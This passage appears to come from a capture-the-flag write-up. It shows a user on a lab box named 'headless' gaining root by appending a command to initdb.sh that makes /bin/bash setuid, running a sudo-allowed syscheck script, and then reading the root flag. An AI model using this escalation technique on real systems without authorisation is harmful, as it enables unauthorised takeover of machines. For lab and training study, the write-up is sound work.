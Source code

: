 Now I can append chmod to make bash an suid.

```bash
dvir@headless:~$ echo 'chmod u+s /bin/bash' >> initdb.sh
echo 'chmod u+s /bin/bash' >> initdb.sh
dvir@headless:~$ cat initdb.sh
cat initdb.sh
#!/bin/bash
whoami >> whoami
chmod u+s /bin/bash
```

```bash
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.03, 0.02, 0.00
Database service is not running. Starting it...
dvir@headless:~$ /bin/bash -p
/bin/bash -p
whoami
root
cat /root/root.txt
6a12cc80007---------------------
```
